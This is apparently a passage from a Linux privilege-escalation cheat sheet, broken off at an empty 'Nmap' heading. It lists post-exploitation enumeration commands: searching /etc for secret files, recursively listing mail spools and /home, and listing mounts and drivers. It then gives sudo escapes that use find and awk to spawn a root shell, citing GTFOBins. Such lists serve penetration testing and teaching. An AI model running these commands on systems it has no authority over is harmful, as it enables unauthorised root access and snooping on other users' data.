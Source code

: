 ```
ls -lsa /etc | grep -i '.secret'
```

```
ls -lsaR /var/mail
```

```
ls -lsaR /var/spool/mail
```

```
ls -lsaR /home
```

```
mount
```

```
lsblk
```

```
cat /etc/fstab
```

## Vulnerable Driver Discovery

_List drivers_

```
lsmod
```

_get libata driver information and version_

```
modinfo libata
```

## Test SUDO

Reference https://gtfobins.github.io/

### Nano

```
sudo find /bin -name nano -exec /bin/sh \;
```

### Awk

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

### Nmap
